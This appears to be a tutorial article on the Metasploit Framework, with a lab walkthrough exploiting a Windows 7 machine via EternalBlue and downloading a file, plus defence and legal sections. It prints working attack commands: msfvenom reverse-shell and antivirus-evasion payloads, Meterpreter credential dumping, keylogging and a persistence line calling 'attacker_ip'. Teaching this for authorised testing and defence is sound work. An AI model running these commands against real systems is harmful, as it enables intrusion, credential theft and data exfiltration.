







The *Metasploit Framework* is a powerful tool that both cybercriminals and ethical hackers use to probe systematic vulnerabilities on networks, systems, and servers. It is an **open-source framework** that is easily customizable and works on most operating systems. The Metasploit framework has been licensed by *Rapid7* since 2009 and has become the **go-to framework** for exploit development and vulnerability assessment.

> **Key Insight**: Metasploit is the world's most popular penetration testing framework, used by security professionals to find and exploit vulnerabilities before malicious attackers do.

## Why Security Professionals Need Metasploit

The software is popular with hackers and widely available, which **reinforces the need for security professionals** to become familiar with the framework—even if they don't use it for offensive purposes.

**Reasons to Learn Metasploit:**
- Understand attacker methodologies
- Test your own defenses
- Validate security controls
- Demonstrate risk to stakeholders
- Essential skill for penetration testers

## Metasploit Capabilities

### Exploit Library

*Metasploit* now includes:

| **Component** | **Count** | **Coverage** |
|---------------|-----------|--------------|
| **Exploits** | 2,000+ | 25+ platforms |
| **Payloads** | 500+ | Various types |
| **Auxiliary Modules** | 1,000+ | Scanning, fuzzing |
| **Post-Exploitation** | 300+ | Persistence, pivoting |
| **Encoders** | 40+ | Evasion |

**Platforms Supported:**
- Android, iOS
- Windows, Linux, macOS
- PHP, Python, Java
- Cisco, Juniper
- Many more...

### Payload Types

The framework carries more than **500+ payloads**:

#### 1. Command Shell Payloads

Enable users to run scripts or commands against a host:

```bash
# Example: Reverse shell
windows/shell/reverse_tcp
linux/x86/shell/bind_tcp
```

#### 2. Dynamic Payloads

Allow testers to generate **unique payloads** to evade antivirus software:

```bash
# Generate unique payload
msfvenom -p windows/meterpreter/reverse_tcp \
 --encoder x86/shikata_ga_nai \
 -i 5 \
 LHOST=192.168.1.10 LPORT=4444 \
 -f exe > unique_payload.exe
```

#### 3. Meterpreter Payloads

Advanced payloads that allow users to:
- Control device monitors using VNC
- Take over sessions
- Upload and download files
- Dump password hashes
- Pivot to other systems



#### 4. Static Payloads

Enable **port forwarding** and communications between networks:

```bash
# Port forwarding payload
portfwd add -l 3389 -p 3389 -r target_host
```

## Metasploit Framework Architecture



## Practical Example: Windows 7 Exploitation

### Scenario

**Strategy**: Compromise a Windows 7 machine to locate and exfiltrate `target.docx` file.

**Tactics:**
1. Perform network scan
2. Identify Windows 7 machine
3. Gain access using '*EternalBlue*' exploit
4. Locate target file
5. Exfiltrate the file

### Step-by-Step Walkthrough

#### Phase 1: Reconnaissance

**Run Nmap scan:**

```bash
sudo nmap 192.168.42.2-110
```

**Results - Identified Active IP Addresses:**

```
192.168.42.34
├── Host is up (0.031s latency)
├── Linux (unconfirmed)
└── Web server (unconfirmed)

192.168.42.42
├── Windows 7 Professional (confirmed) ← TARGET
└── Workstation (unconfirmed)

192.168.42.49
├── Host is up (0.036s latency)
├── All 1000 scanned ports filtered
├── Linux (unconfirmed)
└── Workstation (unconfirmed)

192.168.42.59
├── Linux (unconfirmed)
└── Workstation (unconfirmed)

192.168.42.63
├── Windows Server 2008R2 Standard SP1 (confirmed)
└── Unconfigured (unconfirmed)

192.168.42.100
├── Windows Server 2016 (confirmed)
└── AD Server (unconfirmed)
```

#### Phase 2: Exploitation

**Launch Metasploit and configure exploit:**

```bash
# Start Metasploit
msfconsole

# Use EternalBlue exploit
msf5 auxiliary(scanner/smb/smb_version) > use exploit/windows/smb/ms17_010_eternalblue

# Set target
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 192.168.42.42
RHOST => 192.168.42.42

# Set payload
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

# Execute exploit
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

**Result:**

```
[*] Meterpreter session opened
[+] Exploitation was successful & access was gained
```



#### Phase 3: Post-Exploitation

**Locate target file:**

```bash
meterpreter > search -f target.docx

# Output shows file location
Found 1 result...
 C:\Users\User\Desktop\target.docx
```

**Exfiltrate the file:**

```bash
meterpreter > download C:\\Users\\User\\Desktop\\target.docx

[*] Downloading: C:\Users\User\Desktop\target.docx -> ./target.docx
[*] Downloaded 15.37 KiB of 15.37 KiB (100.0%)
[*] Download completed
```

 **The file was downloaded successfully.**

## Metasploit Workflow



## Common Metasploit Modules

### Auxiliary Modules

**Scanning and enumeration:**

```bash
# SMB version detection
use auxiliary/scanner/smb/smb_version

# SSH login scanner
use auxiliary/scanner/ssh/ssh_login

# HTTP directory scanner
use auxiliary/scanner/http/dir_scanner
```

### Exploit Modules

**Popular exploits:**

| **Exploit** | **Target** | **Vulnerability** |
|-------------|------------|-------------------|
| **ms17_010_eternalblue** | Windows SMB | CVE-2017-0144 |
| **apache_struts_showcase** | Apache Struts | CVE-2017-5638 |
| **drupalgeddon2** | Drupal CMS | CVE-2018-7600 |
| **tomcat_mgr_upload** | Apache Tomcat | Manager upload |
| **java_rmi_server** | Java RMI | Deserialization |

### Meterpreter Commands

**Essential commands:**

```bash
# System information
sysinfo
getuid

# File operations
ls
cd
download <file>
upload <file>

# Process operations
ps
migrate <pid>
kill <pid>

# Network operations
ipconfig
route
portfwd add -l 3389 -p 3389 -r 192.168.1.10

# Password operations
hashdump
load kiwi
kiwi_cmd sekurlsa::logonpasswords

# Screenshot & keylogging
screenshot
keyscan_start
keyscan_dump

# Privilege escalation
getsystem

# Persistence
run persistence -X -i 60 -p 4444 -r attacker_ip
```

## Creating Custom Payloads with MSFVenom

*MSFVenom* is a payload generator and encoder:

```bash
# Windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp \
 LHOST=192.168.1.10 LPORT=4444 \
 -f exe > shell.exe

# Linux reverse shell
msfvenom -p linux/x86/meterpreter/reverse_tcp \
 LHOST=192.168.1.10 LPORT=4444 \
 -f elf > shell.elf

# PHP web shell
msfvenom -p php/meterpreter/reverse_tcp \
 LHOST=192.168.1.10 LPORT=4444 \
 -f raw > shell.php

# Encode to evade AV
msfvenom -p windows/meterpreter/reverse_tcp \
 LHOST=192.168.1.10 LPORT=4444 \
 -e x86/shikata_ga_nai -i 5 \
 -f exe > encoded_shell.exe
```

## Defensive Perspective

### How to Defend Against Metasploit



**Protection Measures:**

| **Defense** | **Implementation** | **Effectiveness** |
|-------------|-------------------|-------------------|
| **Patching** | Regular updates, vulnerability management | High - eliminates exploits |
| **Antivirus** | Detect known Meterpreter signatures | Medium - can be bypassed |
| **EDR** | Behavioral detection | High - detects post-exploitation |
| **IDS/IPS** | Network-based detection | Medium - catches some traffic |
| **Application Whitelisting** | Block unsigned executables | High - prevents payload execution |
| **Network Segmentation** | Limit lateral movement | High - contains compromise |

### Detecting Meterpreter

**Indicators of Meterpreter Activity:**

- Unusual network connections
- Reflective DLL injection
- Suspicious process migration
- Hashdump attempts
- Clearev command execution
- Unusual PowerShell activity

## Ethical Use and Legal Considerations

### Authorized Use Only



**Legal Use Cases:**
- Authorized penetration testing
- Security research with permission
- Educational purposes (lab environment)
- Red team exercises (with authorization)
- Vulnerability validation (on your own systems)

**Illegal Use:**
- Unauthorized access to systems
- Attacking systems without permission
- Using on production systems without approval

> **Legal Warning**: Unauthorized use of Metasploit can result in criminal charges under computer fraud and abuse laws. Always obtain written permission before testing.

## Getting Started with Metasploit

### Installation

```bash
# Kali Linux (pre-installed)
msfconsole

# Ubuntu/Debian
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall

# Update
msfupdate
```

### Basic Commands

```bash
# Search for exploits
search eternalblue
search type:exploit platform:windows smb

# Get info about module
info exploit/windows/smb/ms17_010_eternalblue

# Use a module
use exploit/windows/smb/ms17_010_eternalblue

# Show options
show options
show payloads

# Set options
set RHOST 192.168.1.100
set LHOST 192.168.1.10
set LPORT 4444

# Run the exploit
exploit
# or
run
```

## Penetration Testing Workflow with Metasploit



## Metasploit vs Manual Exploitation

| **Aspect** | **Metasploit** | **Manual Exploitation** |
|------------|----------------|------------------------|
| **Speed** | Fast | Slow |
| **Ease of Use** | User-friendly | Requires deep knowledge |
| **Customization** | Limited | Unlimited |
| **Learning Curve** | Moderate | Steep |
| **Detection** | Easier to detect | Can be stealthier |
| **Updates** | Regular | Manual research |

## Best Practices

### For Red Teamers

- **Always get authorization** in writing
- **Define scope** clearly
- **Document everything** you do
- **Secure your findings**
- **Provide clear reports**
- **Clean up** after testing
- **Be careful** in production

### For Blue Teamers

- **Know thy enemy** - understand Metasploit capabilities
- **Test defenses** - can your tools detect Meterpreter?
- **Monitor for IoCs** - watch for Metasploit signatures
- **Regular updates** - patch known exploits
- **Train your team** - everyone should understand these tools

## Metasploit Alternatives

| **Tool** | **Focus** | **Best For** |
|----------|-----------|--------------|
| **Cobalt Strike** | Red team operations | Advanced adversary simulation |
| **Empire** | PowerShell post-exploitation | Windows environments |
| **Core Impact** | Commercial pentesting | Enterprise testing |
| **Canvas** | Exploit development | Advanced testers |
| **BeEF** | Browser exploitation | Web application testing |

## Conclusion

The *Metasploit Framework* is an essential tool in the cybersecurity arsenal, used by both attackers and defenders. Its comprehensive exploit database, powerful post-exploitation capabilities, and ease of use make it the standard for penetration testing worldwide.

For **security professionals**, Metasploit provides:
- A way to validate vulnerabilities
- Tools to demonstrate risk
- Framework for authorized testing
- Educational resource for understanding attacks

For **defenders**, understanding Metasploit is crucial for:
- Knowing what attackers can do
- Testing detection capabilities
- Understanding exploitation techniques
- Improving security posture

Whether you're a penetration tester, security researcher, or defensive security professional, familiarity with Metasploit is **essential** in today's cybersecurity landscape.

> **Final Takeaway**: Metasploit is a double-edged sword—powerful for both offense and defense. Use it responsibly, legally, and always with proper authorization. The best defenders think like attackers, and Metasploit is your window into the attacker's toolkit.

## References

- [Metasploit Unleashed (Free Course)](https://www.offensive-security.com/metasploit-unleashed/)
- [Rapid7: Metasploit Documentation](https://docs.rapid7.com/metasploit/)
- [Metasploit GitHub](https://github.com/rapid7/metasploit-framework)
- [Metasploit Module Reference](https://www.rapid7.com/db/)
